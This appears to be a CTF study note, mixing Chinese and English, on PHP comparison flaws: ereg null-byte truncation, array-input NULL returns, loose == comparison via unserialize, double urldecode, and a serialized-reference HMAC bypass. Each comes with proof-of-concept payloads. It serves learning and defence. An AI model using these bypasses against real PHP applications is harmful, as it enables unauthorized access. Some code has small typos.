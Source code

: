 ```yaml
---
title: "php match or comapre"
date: 2016-03-13 15:28
---
```


# match

## ereg

> int ereg() 返回整数类型

* example

```php
if (ereg ("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE){
	echo '<p>You password must be alphanumeric</p>';
}
else if (strlen($_GET['password']) < 8 && $_GET['password'] > 9999999){
    if (strpos ($_GET['password'], '*-*') !== FALSE){
        die('Flag: ' . $flag);
    }
}
```

* poc 1

```
url: ...?password=1e9%00*-*
```

此处利用 **ereg 经典漏洞**，读到 ** %00 ** 就截止了

* poc 2

```
url: ...?password[]=s
``` 

**传入数组**

* ereg 返回** NULL** ，NULL !== FALSE is true
* strpos 处理数组，也返回 ** NULL **
* strlen 处理数组，同样返回 **NULL**

**比较**

* null 和 任何其他任何类型，比较，转换为 bool， FALSE < TRUE
* array 和  任何其他类型（不包括 object）， 比较， array 总是更大


## loose comparison(== operator) 

* example

```php
$flag='ctf_flag';
$unserialize_str = $_POST['password'];
$data_unserialize = unserialize($unserialize_str);
if($data_unserialize['user'] == '???' && $data_unserialize['pass']=='???')
{
    print_r($flag);
}
```

user, pass 的值是未知的，条件判断时使 $data_unserialize['user']=true ， $data_unserialize['pass']=true 即可

* poc

```php
$arr =  array();
$arr['user']=TRUE;
$arr['pass']=TRUE;
$seialize_str = serialize($arr);    //a:2:{s:4:"user";b:1;s:4:"pass";b:1;}
$flag='ctf_flag';
$data_unserialize = unserialize($serialize_str);
if($data_unserialize['user'] == '???' && $data_unserialize['pass']=='???')
{
    print_r($flag);
}
```

## urldecode

> string urldecode() 返回字符串类型 

urldecode 与 $_GET[] $_POST[] $_REQEST[] 联合使用

$_GET[] $_POST[] $_REQEST[] 返回的参数是**已经被解码了**的，在进行 urldecode 相当于 二次 urldecode

* poc

```php
$username = $_GET['username'];  //url: ...?username=%2561dmin   %61 is a
if (urldecode($username) === "admin"){
    echo "you are admin";
}
```

## reference

* example

```php
$auth = $_COOKIE['auth'];
if(get_magic_quotes_gpc())
    $auth = stripslashes($auth);
$auth = unserialize($auth);

if(!is_array($auth))    // hint auth is array
    return false;

$auth['hmac_t'] = sha1(sha1($auth['username'].$auth['hmac_t'].$auth['password']).$secret_salt);

if($auth['hmac_t'] !== $auth['hmac'])
    return false;
```

* poc

```php
$a = array("username" => "dragon", "password" => true, "hmac_t" => "0"); 
$a["hmac"] = &$a["hmac_t"]; // key point ****************
$a["hmac_t"]=1; 
echo $a["hmac"]."\n";
echo urlencode(serialize($a)) . "\n";
```

1.**PHP 是可以直接取 Reference **

则 if !== 的 strict comparison 就 always true 了...因为都是一个** Object **

2.cookie 提交 auth 为 urlencode(serialize($a)) 或 serialize($a) 均可 
